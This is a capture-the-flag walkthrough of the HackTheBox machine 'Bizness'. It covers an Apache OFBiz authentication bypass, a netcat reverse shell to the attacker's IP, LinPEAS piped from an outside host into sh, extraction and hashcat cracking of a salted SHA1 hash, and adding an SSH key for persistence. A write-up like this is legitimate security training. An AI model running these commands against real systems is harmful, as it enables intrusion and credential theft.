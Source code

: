 ```yaml
---
date: 2025-03-10
categories: [CTF, HTB]
title: "HTB - Bizness"
tags: ['hashcat', 'nmap', 'privilege escalation', 'python', 'rce', 'reverse shell', 'tryhackme', 'hackthebox', 'immersivelabs', 'thm', 'iml', 'htb']

description: "Bizness - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# HTB - Bizness

NMAP

![image1](../resources/c4c5de538cd64b3980ef74d7ee07df54.png)

- Add **bizness.htb** to /etc/hosts

![image2](../resources/7263dd7c2c5e4f3ebcb3e0cb31d90656.png)


![image3](../resources/9a1adcfedd5e40d1b95f02d12edd408b.png)

- Directory bruteforce (recursive):

```bash
ffuf -u https://bizness.htb/FUZZ -recursion -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -fw 1
```

![image4](../resources/708fc8bbb95b450ebd6d2a735a27ac06.png)

- Going to /webportal

![image5](../resources/b81db965335f4cc7a3930c89fbdf7363.png)

- Clicked on Login and used the credentials given but get this error:

![image6](../resources/fb7c0e582dff450b9ad782407ca13fbb.png)

- Go to <https://bizness.htb/myportal>

![image7](../resources/e361a49e029b4ec18f42066c9c3d6dee.png)

- I can register  (**password123**)

![image8](../resources/00adee3881b04c7abcbc7d684ddf7c32.png)
- But can't log in

![image9](../resources/2580e329c5e248e8af9155102ffd736c.png)

- Looking back at the home page - at the bottom:

![image10](../resources/a64ce76f5034402cbb18e0b617b03157.png)

- Googling Apache OFBiz exploit - found:
[https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass/blob/master/exploit.py](https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass/blob/master/exploit.py)

[https://medium.com/@maltamas/apache-ofbiz-authentication-bypass-vulnerability-cve-2023-49070-and-cve-2023-51467-8ef010759d66](https://medium.com/@maltamas/apache-ofbiz-authentication-bypass-vulnerability-cve-2023-49070-and-cve-2023-51467-8ef010759d66)

- Trying the POC to see if it might be vulnerable:
[https://bizness.htb/webtools/control/ping?USERNAME&PASSWORD=test&requirePasswordChange=Y](https://bizness.htb/webtools/control/ping?USERNAME&PASSWORD=test&requirePasswordChange=Y)


![image11](../resources/6636619b5fff49bd8ef8dd929fa25cdb.png)


![image12](../resources/6e7d84b355cd4ccca6c2c7d3c2d2dab3.png)

- And using the python tool:

```bash
git clone https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass.git

python3 exploit.py --url https://bizness.htb

```

![image13](../resources/68434c4ef4a44ce28b21db1bf021240f.png)

- We can also run a command with it - but the command output doesn't get returned:

![image14](../resources/69aa90309cfb464295aaf588e130c940.png)

- I set up a listener:

```bash
rlwrap -cAr nc -lvnp 8081

```
- I tried loads of reverse shell options but the only one that worked was:
**nc -e /bin/bash 10.10.14.18 8081**

```bash
python3 exploit.py --url https://bizness.htb --cmd "nc -e /bin/bash 10.10.14.18 8081"

```

![image15](../resources/49337ed38d6b4b7092516df8aace061f.png)

- Got a shell:

![image16](../resources/4aab46873a5a447b8dc58e1a88cec2ee.png)

- Upgrade shell:

```bash
/usr/bin/script -qc /bin/bash /dev/null
#PRESS Ctrl+Z
stty raw -echo
fg

#PRESS ENTER
#PRESS ENTER

export TERM=xterm
stty cols 236 rows 59
PS1="\n\[\033[1;34m\][\$(date +%H%M)][\u@\h:\w]$\[\033[0m\] "
alias ls='ls --color=auto'
reset
clear

#PRESS ENTER

```

![image17](../resources/1e066e7572af4b488d8095ba17af0168.png)

- Upload LinPEAS:

```bash
curl http://10.10.14.18:8082/linpeas.sh | sh

```

![image18](../resources/8b8ad23a85a245e3a083892b57ead443.png)

```bash
systemctl list-units --type=service --state=running

```

![image19](../resources/ad79a255a6aa4231af2ac46afd785fd5.png)

- Two things stand out:
Normally /opt is empty but in this case it has the directory **ofbiz**

And the service **ofbiz.service**

- Query the service:

```bash
systemctl status ofbiz.service

```

![image20](../resources/3121db77ca6740a3ac8991f2b105a10b.png)

- Search for credentials within /opt/ofbiz:

```bash
grep --color=auto -irnw . -e "credentials" 2>/dev/null

```

![image21](../resources/5852ca65a4d04c3abfcf186abc77783e.png)

```bash
cat /opt/ofbiz/build.gradle

```

![image22](../resources/a702843a884542fba394be3f4fb6966e.png)

```bash
cat /opt/ofbiz/framework/resources/templates/AdminUserLoginData.xml

```

![image23](../resources/ff3b667122034ea3826bfa41613ee3cb.png)

{SHA}47ca69ebb4bdc9ae0adec130880165d2cc05db1a

- We have a SHA1 hash but the hash is for the password ofbiz, that we found before and it doesn't work

- Try and find other hashes:

```bash
grep -E 'SHA' -rnw /opt/ofbiz

```

![image24](../resources/c1bad59dda8f4e5ebea9d450c90f7f74.png)

- More concise grep:

```bash
grep -E '\\SHA\\\[a-zA-Z0-9\]+\\\[a-zA-Z0-9\_-\]+' -rnw .

```

```bash
cat /opt/ofbiz/runtime/data/derby/ofbiz/seg0/c54d0.dat
```

![image25](../resources/fc39e427c2ef41df8fe832816a98ad07.png)

- Found the salt: **d**


![image26](../resources/68f82947e00a436f986365c048ffaa90.png)

- First we need to convert hash to normal base64 encoding by adding padding from URL Safe
and then decode it to hex:

```python
import base64

base64_str = "uP0_QaVBpDWFeo8-dRzDqRwXQ2I"
base64_str_unsafe = base64_str.replace('-', '+').replace('_', '/')
base64_str_padded = base64_str_unsafe + '=' * ((4 - len(base64_str_unsafe) % 4) % 4)
decoded_bytes = base64.b64decode(base64_str_padded)
print(decoded_bytes.hex())

```

![image27](../resources/e5f95b894c744aebbca4a3ca0a525607.png)

- Now, apply mode 120 along with hash and salt format to crack:

```bash
hashcat -m 120 -a0 'b8fd3f41a541a435857a8f3e751cc3a91c174362:d' /usr/share/wordlists/rockyou.txt

```

![image28](../resources/1e13c4c2e2374769866c25380872e965.png)

- Root shell:

![image29](../resources/dc47da71fd44403e83862abd94683c49.png)

- Create SSH key to get better shell:

```bash
ssh-keygen -t rsa -b 4096

chmod 600 id_rsa
mkdir ~/.ssh

touch ~/.ssh/authorized_keys
chmod 600 ~/.ssh/authorized_keys
echo "\<id_rsa.pub\>" >> ~/.ssh/authorized_keys
ssh ofbiz@10.129.18.39 -i id_rsa
```